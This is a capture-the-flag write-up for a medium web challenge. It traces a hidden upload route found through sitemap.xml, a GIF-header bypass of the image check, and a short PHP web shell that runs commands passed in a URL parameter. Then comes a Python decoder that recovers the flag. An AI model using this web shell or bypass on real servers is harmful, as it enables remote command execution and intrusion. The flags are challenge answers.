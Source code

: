 # not yet

**Difficulty:** Medium
**Category:** Web
**Author:** M3551
**Description:** Think you're almost there? Not yet

## link
http://nex-zero.nexus-security-club.com:4033

## Solution
Entering the link we find some text:

![home](./images/home.png)

we see "MAP" written in bold so it's a hint to look in [sitemap.xml](https://developers.google.com/search/docs/crawling-indexing/sitemaps/overview?hl=en) file


navigating to sitemap.xml file, 
![home](./images/sitemap.png)

we see a weird comment:

```<!--  110211221237232238208202234234212190204161105169167165228228228228209190207184184207212197188156100152195181203225218211215211195203213213221221206216160170  -->```

it seems like an encrypted text but how? let's continue!!

in the same file we see a secret route : ```http://nex-zero.nexus-security-club.com:4033/s3cR33Ttt.php```

navigating to it we find an upload functionality that allows us to upload only images using headers check 
![s3cR33Ttt](./images/secret_route.png)

so we need to bypass it with adding an image header to our php script to get a shell:

### shell.php
```php
GIF89a;
<?
system($_GET['cmd']);
?>
```

uploading this script we'll see that it's succesfully uploaded and we can find the file at /uploads/shell.php
![successful_upload](./images/success_upload.png)

navigating to this path using a `cmd` get parameter with a command as value we'll notice that it's successfully executed:

![webshell](./images/webshell.png)


so we need to search for interesting files in the server:
taking a look at /home we'll find 2 files: `flag.txt` that contains a fake flag `nexus{000000f_c00ur555553_th1s_i5_4_F4k3_Fl4g}`

![fake_flag](./images/fake_flag.png)

and `encryption.txt` that contains a riddle to understand how the comment found in sitemap.xml was encrypted:
![encryption](./images/encryption.png)


```In the world of tech, a secret's tale, An encryption dance, a digital veil. Start with the first, its ASCII's code, In three digits, it's bestowed. Then onward to the next, a simple stride, Add the ASCII of the previous guide. A journey through letters, a digital dance,```

in summary it sais that the first 3 digits are the ASCII value of the 1st char then the second is the sum of the ascii of the 1st + the ascii of the current, so the n th char is encoded with it's ascii + the ascii of it's previous, so to decrypt it all we have todo is take the reverse path:

```python
ciphertext = "110211221237232238208202234234212190204161105169167165228228228228209190207184184207212197188156100152195181203225218211215211195203213213221221206216160170"
decrypted_text = ""
prev_ascii = 0
    
for i in range(0, len(ciphertext), 3):
    chunk = ciphertext[i:i+3]
    encrypted_ascii = int(chunk)
    decrypted_ascii = encrypted_ascii - prev_ascii
    decrypted_text += chr(decrypted_ascii)
    prev_ascii = decrypted_ascii

print(decrypted_text)
                          
```


## Output
nexus{Uuuu__m45t3rrrrr__pHp_uPl04d_Vulnerabilities-}
                    
## Flag

`nexus{Uuuu__m45t3rrrrr__pHp_uPl04d_Vulnerabilities-}`